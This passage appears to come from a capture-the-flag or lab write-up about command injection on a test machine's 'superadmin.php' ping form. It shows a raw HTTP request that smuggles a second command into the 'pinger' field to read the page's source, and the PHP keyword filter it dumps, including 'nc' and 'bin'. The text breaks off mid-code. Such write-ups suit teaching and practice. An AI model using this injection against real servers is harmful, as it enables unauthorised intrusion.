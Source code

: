 ```http

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

> Yes! Command injection is possible.
{: .prompt-info }

--- 

# post exploitation
## reverse shell

Playing around with reverse shell payloads shows that some kind of filter seems to be active. Lets review the `php` code of `superadmin.php`  
payload: `cat superadmin.php`
```http
POST /superadmin.php HTTP/1.1
Host: 192.168.192.15
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.192.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.192.15/superadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127|cat%20superadmin.php&submitt=Submit

HTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 17:37:58 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 686
Connection: close
Content-Type: text/html; charset=UTF-8

<form method="post" action="">
...
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
```